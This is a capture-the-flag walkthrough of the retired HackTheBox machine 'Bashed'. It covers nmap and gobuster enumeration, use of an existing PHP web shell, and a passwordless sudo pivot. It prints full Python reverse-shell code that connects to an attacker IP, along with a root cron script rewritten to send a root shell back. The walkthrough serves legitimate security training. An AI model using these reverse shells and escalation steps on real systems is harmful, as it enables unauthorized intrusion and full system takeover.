

hackthebox Bashed
Released: 9th December 2017 / Pwned: 16th September 2019 - [+] Solved whilst Retired

Bashed makes use a a php shell created by the box's creator - Arrexel. From the web shell, you use python to elevate to a user shell, to a scriptmanager shell using sudo, and then to a root shell by creating a python script in /scripts which runs as root.
1) Nmap
Initial scan:
nmap -T4 -sV -sC -O -oN nmap/tcp_top1000.txt 10.10.10.68
-T4 aggressive scan
-sV service enumeration
-sC default scripts
-O OS detection
-oN default output
Results:
root@gotham:~/ctf/bashed# nmap -p 80 -T4 -sV -sC -O -oN nmap/tcp_top1000.txt 10.10.10.68
[...]
PORT STATE SERVICE VERSION
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.12 (95%), Linux 3.13 (95%), Linux 3.16 (95%), Linux 3.18 (95%), Linux 3.2 - 4.9 (95%), Linux 3.8 - 3.11 (95%), Linux 4.4 (95%), Linux 4.2 (95%), Linux 4.8 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Results analysis:
• Port 80 - The only place to look!
2) 80/http
Visit http://10.10.10.68
There's a link to a blog post titled phpbash.
phpbash appears to be a php web shell written by the box's creator- Arrexel.
Follow the github link to read more about it (it's actually really good).
2a) 80/http - Gobuster
If you gobuster the site, you'll find a /dev directory which already contains a phpbash.php shell for us.
root@gotham:~/ctf/bashed/80# gobuster -e -u http://10.10.10.68 -w /usr/share/seclists/Discovery/Web-Content/big.txt -o gb-big.txt
=====================================================
Gobuster v2.0.1 OJ Reeves (@TheColonial)
=====================================================
[+] Mode : dir
[+] Url/Domain : http://10.10.10.68/
[+] Threads : 10
[+] Wordlist : /usr/share/seclists/Discovery/Web-Content/big.txt
[+] Status codes : 200,204,301,302,307,403
[+] Expanded : true
[+] Timeout : 10s
=====================================================
2019/09/16 14:16:09 Starting gobuster
=====================================================
http://10.10.10.68/.htaccess (Status: 403)
http://10.10.10.68/.htpasswd (Status: 403)
http://10.10.10.68/css (Status: 301)
http://10.10.10.68/dev (Status: 301)
http://10.10.10.68/fonts (Status: 301)
http://10.10.10.68/images (Status: 301)
http://10.10.10.68/js (Status: 301)
http://10.10.10.68/php (Status: 301)
http://10.10.10.68/server-status (Status: 403)
http://10.10.10.68/uploads (Status: 301)
=====================================================
2019/09/16 14:17:20 Finished
=====================================================
3) www-data Interactive Shell
We're running as www-data, but you can grab user.txt from arrexel's home directory.
www-data@bashed:/var/www/html/dev# whoami
www-data
www-data@bashed:/var/www/html/dev# ls -alh /home
total 16K
drwxr-xr-x 4 root root 4.0K Dec 4 2017 .
drwxr-xr-x 23 root root 4.0K Dec 4 2017 ..
drwxr-xr-x 4 arrexel arrexel 4.0K Dec 4 2017 arrexel
drwxr-xr-x 3 scriptmanager scriptmanager 4.0K Dec 4 2017 scriptmanager
www-data@bashed:/var/www/html/dev# ls -alh /home/*/*
-r--r--r-- 1 arrexel arrexel 33 Dec 4 2017 /home/arrexel/user.txt
www-data@bashed:/var/www/html/dev# cat /home/arrexel/user.txt
2c281f31...
Check what commands www-data can run with sudo
www-data@bashed:/var/www/html/dev# sudo -l
Matching Defaults entries for www-data on bashed:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL
This sudo entry allows us (www-data) to run ALL commands as scriptmanager without providing a password.
You can do a lot in this shell, but because it's not interactive, you can't run sudo.
In that case, you can elevate to an interactive shell using a python
First, send a python reverse shell to your attacking system
Second, elevate to an interactive shell by using python to spawn a bash shell.
Start a listener on your attacking machine
root@gotham:~/ctf/bashed# nc -lvnp 9001
listening on [any] 9001 ...
And on the web shell, send a python reverse shell back to your listener.
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.6",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
You should receive a shell as www-data
listening on [any] 9001 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.68] 40406
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
Now spawn an interactive shell using python -c 'import pty; pty.spawn("/bin/bash")'
With this interactive shell, you can finally run sudo
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@bashed:/var/www/html/dev$ sudo -u scriptmanager id
sudo -u scriptmanager id
uid=1001(scriptmanager) gid=1001(scriptmanager) groups=1001(scriptmanager)
4) Elevate to scriptmanager
Now that you're on an interactive shell, you can run sudo -u scriptmanager /bin/bash to elevate to scriptmanager
www-data@bashed:/var/www/html/dev$ sudo -u scriptmanager id
sudo -u scriptmanager /bin/bash
scriptmanager@bashed:/var/www/html/dev$ whoami
whoami
scriptmanager
5) /scripts
Now that we're scriptmanager, we can access scriptmanager's files.
You can either list all files that scriptmanager owns - find / -user scriptmanager 2>/dev/null - or use a bit of logical thinking to advance. My brain was asleep, so I did the logical thinking path.
If this user is called scriptmanager, there must be scripts that need managing somewhere.
In /, the root of the file system, you'll find /scripts.
scriptmanager@bashed:/scripts$ ls -alh
ls -alh
total 16K
drwxrwxr-- 2 scriptmanager scriptmanager 4.0K Sep 16 07:02 .
drwxr-xr-x 23 root root 4.0K Dec 4 2017 ..
-rw-r--r-- 1 scriptmanager scriptmanager 58 Dec 4 2017 test.py
-rw-r--r-- 1 root root 12 Sep 16 07:02 test.txt
scriptmanager@bashed:/scripts$ cat test.py
cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
scriptmanager@bashed:/scripts$ cat test.txt
cat test.txt
testing 123!
test.py creates a file called test.txt, and writes testing 123! in it.
test.txt is owned by root, which means that test.py must run as root.
In that case, there must be a cronjob which runs python files in this directory.
5a) Python Reverse Shell
To get root, you can write your own python script which sends a reverse shell to your attacking machine. Because the script runs as root, you'll be sent a root shell.
Start a listener on your attacking machine to receive the shell
root@gotham:~/ctf/bashed# nc -lvnp 9003
listening on [any] 9003 ...
Write a python script which sends a shell back to your listener.
Because we're not a real/proper interactive shell, you'll have to echo the lines into the script.
One-liner script
echo "'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.14.6',9002));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);'" > shellme.py
Or echo as separate lines
scriptmanager@bashed:/scripts$ echo "import socket,subprocess,os" > shellme.py
scriptmanager@bashed:/scripts$ echo "s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)" >> shellme.py
scriptmanager@bashed:/scripts$ echo "s.connect(('10.10.14.6', 9003))" >> shellme.py
scriptmanager@bashed:/scripts$ echo "os.dup2(s.fileno(),0)" >> shellme.py
scriptmanager@bashed:/scripts$ echo "os.dup2(s.fileno(),1)" >> shellme.py
scriptmanager@bashed:/scripts$ echo "os.dup2(s.fileno(),2)" >> shellme.py
scriptmanager@bashed:/scripts$ echo "p = subprocess.call(['/bin/bash','-i'])" >> shellme.py
scriptmanager@bashed:/scripts$ echo "os.system('touch shellsent')" >> shellme.py
My final script looked like this:
scriptmanager@bashed:/scripts$ cat shellme.py
import socket,subprocess,os
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('10.10.14.6', 9003))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p = subprocess.call(['/bin/bash','-i'])
Watch your listener and wait for a connection.
You should get a root shell :)
listening on [any] 9003 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.68] 41328
bash: cannot set terminal process group (9830): Inappropriate ioctl for device
bash: no job control in this shell
root@bashed:/scripts# id
id
uid=0(root) gid=0(root) groups=0(root)
Go grab root.txt
root@bashed:/scripts# cat /root/root.txt
cat /root/root.txt
cc4f0afe3...